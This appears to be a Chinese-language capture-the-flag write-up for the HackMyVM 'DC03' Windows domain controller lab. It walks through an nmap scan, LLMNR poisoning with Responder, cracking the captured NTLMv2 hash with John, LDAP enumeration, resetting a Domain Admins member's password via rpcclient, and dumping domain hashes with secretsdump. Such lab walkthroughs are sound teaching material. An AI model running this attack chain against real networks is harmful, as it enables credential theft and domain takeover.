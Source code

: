```yaml
---
title: "HackMyVM-DC03"
date: 2025-03-01
categories: 
  - "hackmyvm"
tags: 
  - "hackmyvm"
  - "windows"
---
```


## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Desktop  
❯ nmap 192.168.56.103 -sSV -Pn -A -T4

PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-02 03:01:34Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
MAC Address: 08:00:27:46:72:D1 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|11|2016 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (97%), Microsoft Windows 11 21H2 (91%), Microsoft Windows Server 2016 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 14h59m36s
| smb2-time: 
|   date: 2025-03-02T03:03:53
|_  start_date: N/A
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:46:72:d1 (Oracle VirtualBox virtual NIC)
```

把**DC01**.**SOUPEDECODE.LOCAL**添加到**/etc/hosts**

## LLMNR & NBT-NS

我尝试直接枚举靶机上的信息，没有成功。

在做**sherlocks**的时候遇到过这个问题：[Sherlocks-Reaper - HYH](https://www.hyhforever.top/sherlocks-reaper/)

这里是涉及到的一些文章

- [渗透测试之 Responder 工具详解 中间人攻击 LLMNR链路本地多播名称解析 NBNS 网络基本输出系统名称服务 NTLM Relay攻击利用工具一篇文章让你明明白白\_responder工具-CSDN博客](https://blog.csdn.net/zhzx123aa/article/details/143895634)

- [【内网学习笔记】18、LLMNR 和 NetBIOS 欺骗攻击 | TeamsSix](https://teamssix.com/210729-191048)

要说明的是，这个攻击不需要凭证，但是是有前提的

- **无有效的 DNS**: 当网络中缺乏有效的 DNS 服务器时，设备会尝试使用 LLMNR 或 NBT-NS 进行名称解析。这种情况下，攻击者可以更容易地利用这些协议进行攻击。

- **启用的 LLMNR 和 NBT-NS**: 目标主机必须启用 LLMNR 和 NBT-NS 服务。在许多 Windows 系统中，这些服务默认是启用的。

- **同一广播域内**: 攻击者和目标设备需要处于同一广播域内。LLMNR 和 NBT-NS 是基于广播的协议，因此攻击者需要能够接收到这些广播请求。

```
[root@kali] /home/kali/Desktop  
❯ responder -I eth0
```

![](./images/image-24.png)

成功接收到**NTLM**哈希值，直接使用**john**爆破

```
[root@kali] /home/kali/DC03  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jesuschrist      (xkate578)     
1g 0:00:00:00 DONE (2025-03-01 20:28) 100.0g/s 204800p/s 204800c/s 204800C/s 123456..lovers1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

## SMBmap

![](./images/image-25.png)

进入到**share**目录，拿到**user.txt**

![](./images/image-26.png)

## ldapdomaindump

**LDAPDomainDump**是一款利用**LDAP**协议收集活动目录信息的工具

```
[root@kali] /home/kali/DC03  
❯ ldapdomaindump -u "SOUPEDECODE.LOCAL\xkate578" -p jesuschrist 192.168.56.103                                                                            ⏎
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

然后使用**python.http.server**即可查看到**html**文件

可以看到**Operators**属于**Domain Admins**组

![](./images/image-27.png)

而我们的用户属于**Account Operators**组

![](./images/image-28.png)

还有一个用户属于**Operator**组

![](./images/image-29.png)

因此目前要做的是，通过当前的**xkate578**用户去修改**fbeth103**的密码

```
[root@kali] /home/kali/DC03  
❯ rpcclient -U "xkate578" --password="jesuschrist"  192.168.56.126                                                                                        ⏎
rpcclient $> setuserinfo2 fbeth103 23 "Pass1234!"
rpcclient $> 
```

## Secretdump

改好之后尝试获取域内的哈希，注意不是本地的！

```
[root@kali] /home/kali/DC03  
❯ impacket-secretsdump 'SOUPEDECODE.LOCAL/fbeth103:Pass1234!'@192.168.56.126   
```

![](./images/image-31.png)

![](./images/image-32.png)

## Summary

`User`：**LLMNR 中毒攻击**获取到**xkate578**的**Net-NTLM Hash**，并且在**smb**服务中拿到**user.txt**。这还是我第一次在渗透中使用**LLMNR**，之前还是在日志分析的时候了解的。

`Root`：通过**ldap**端口进行信息收集，这里我本想用的是**bloodhound**，但是老是报错。发现当前用户可以修改高权限组的成员密码，修改后**dumphash**，最后**Evil-winrm**登录。

其中重置了一下靶机，因此**IP**变化了。
